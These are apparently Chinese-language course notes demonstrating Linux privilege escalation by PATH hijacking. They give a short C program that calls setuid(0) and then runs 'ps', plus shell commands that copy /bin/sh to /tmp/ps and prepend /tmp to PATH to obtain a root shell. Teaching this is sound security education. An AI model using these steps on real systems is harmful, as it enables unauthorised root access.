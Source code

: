 

# 思维导图

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64.png)

# 演示案例：

## Linux 提权本地环境变量安全-Aliyun

### 案例 1：Linux 提权本地环境变量安全-Aliyun

条件

- 配合 SUID 进行环境变量提权
- 本地用户权限

过程：手写调用文件-----编译------复制文件------增加环境变量------执行触发

```shell
gcc demo.c -o shell
cp /bin/sh /tmp/ps
export PATH=/tmp:$PATH
./shell
id
```



##### demo.c

```c
#include<unistd.h>
void main()
{
	setuid(0);
	setgid(0);
	system("ps");	
}
```

##### 复制文件

cp /bin/sh /tmp/ps，把/bin/sh复制给/tmp/ps，ps命令本来是用于显示当前进程的状态，复制后执行./ps就变成了执行sh命令。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-1.png)

##### 增加环境变量

```shell
export PATH=/tmp:$PATH
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-2.png)
